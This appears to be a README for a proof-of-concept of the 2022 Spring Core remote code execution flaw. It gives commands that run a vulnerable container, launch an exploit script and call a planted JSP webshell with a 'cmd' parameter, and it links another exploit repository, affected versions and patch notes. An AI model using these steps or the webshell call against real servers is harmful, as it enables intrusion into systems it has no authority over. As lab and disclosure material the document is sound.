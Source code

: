 # How to reproduce
docker run -d -p 8082:8080 --name springrce -it vulfocus/spring-core-rce-2022-03-29

python3 ./exp.py --url http://192.168.0.11:8082

curl --output - "http://192.168.0.11:8082/tomcatwar.jsp?pwd=j&cmd=id"
![vulnerable code + poc](images/exploit.jpg)

# Spring Core RCE

> After Spring Cloud, on 3.29, another major Spring vulnerability was reported online: Spring Core RCE

(Note from craig: Spring Cloud exploit here: https://github.com/hktalent/spring-spel-0day-poc)

## coded poc in circulation
** currently exp has been uploaded ``exp.py`` **
![circulating coded poc](images/poc.png)
![awkward situation](images/img_1.png)

## The official Spring patch is also in active production  
[Link to patches in production for Spring](https://github.com/spring-projects/spring-framework/commit/7f7fb58dd0dae86d22268a4b59ac7c72a6c22529)

## The vulnerability affects
1. jdk version 9 and above
2. using Spring Framework or derivative frameworks
## Vulnerability Fix Recommendations
Currently, Spring has not released a patch, so we recommend lowering the jdk version as a temporary solution.

Translated with www.DeepL.com/Translator (free version)
